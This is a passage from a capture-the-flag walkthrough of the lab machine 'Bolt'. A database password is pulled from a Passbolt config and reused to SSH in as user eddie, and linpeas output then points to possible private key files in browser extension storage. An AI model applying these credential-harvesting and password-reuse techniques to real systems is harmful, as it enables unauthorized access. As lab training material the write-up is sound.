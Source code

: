 ```
    // Database configuration.
    'Datasources' => [
        'default' => [
            'host' => 'localhost',
            'port' => '3306',
            'username' => 'passbolt',
            'password' => 'rT2;jW7<eY8!dX8}pQ8%',
            'database' => 'passboltdb',
        ],
    ],
...[snip]...
```

Checking for users on the machine we find the `/home` directory folders for clark and eddie.

```
www-data@bolt:~/demo$ ls /home/
clark  eddie
```

Trying the found password for eddie over ssh it works and we are able to grab the user flag.

```
$ ssh eddie@bolt.htb
eddie@bolt.htb's password:
Welcome to Ubuntu 20.04.3 LTS (GNU/Linux 5.13.0-051300-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

0 updates can be applied immediately.

Failed to connect to https://changelogs.ubuntu.com/meta-release-lts. Check your Internet connection or proxy settings

Your Hardware Enablement Stack (HWE) is supported until April 2025.
You have mail.
Last login: Sun Sep 26 02:25:34 2021 from 10.10.14.79
eddie@bolt:~$ wc -c user.txt
33 user.txt
```

# Root

## GPG

Running linpeas reveals some possible ssh keys.

```
══╣ Possible private SSH keys were found!
/etc/ImageMagick-6/mime.xml
/home/eddie/.config/google-chrome/Default/Extensions/didegimhafipceonhjepacocaffmoppf/3.0.5_0/index.min.js
/home/eddie/.config/google-chrome/Default/Extensions/didegimhafipceonhjepacocaffmoppf/3.0.5_0/vendors/openpgp.js
/home/eddie/.config/google-chrome/Default/Local Extension Settings/didegimhafipceonhjepacocaffmoppf/000003.log
```
